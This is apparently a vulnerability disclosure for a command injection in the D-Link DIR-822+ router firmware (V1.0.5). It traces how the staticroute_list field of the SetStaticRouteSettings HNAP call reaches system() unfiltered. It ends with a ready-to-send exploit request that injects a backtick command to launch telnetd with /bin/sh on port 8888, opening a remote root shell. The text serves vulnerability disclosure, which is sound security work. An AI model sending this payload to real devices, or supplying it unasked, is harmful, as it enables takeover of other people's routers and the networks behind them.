





## DIR-822+ Command Injection

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-822%2B

### Affected version

D-Link DIR-822+ V1.0.5 was found to contain a command injection in `SetStaticRouteSettings` function of `prog.cgi`, which allows remote attackers to execute arbitrary commands via shell


### Vulnerability details

Vulnerability occurs in `/HNAP1/SetStaticRouteSettings`. Attackers can control `v17` by setting the `staticroute_list`.



Split this part of data with comma and pass the value to `v10-v13`, which represents the `network address`, `network mask`, `gateway` and `interface`.



Then pass `v10-13` in the` sub_437028` function.



This part of data was directly passed in system without any filtering



Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `staticroute_list`. 

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 183
Accept: application/json
HNAP_AUTH: 5E736BA3725CFF7870DC7A1B6B9512E6 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/SetStaticRouteSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=akiKeInk; PrivateKey=880D5E30644E82353544D9496CA35B50; timeout=51
Connection: close

{"SetStaticRouteSettings":{"staticroute_list":"`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`,255.255.255.255,192.168.0.1,wan"}}
```


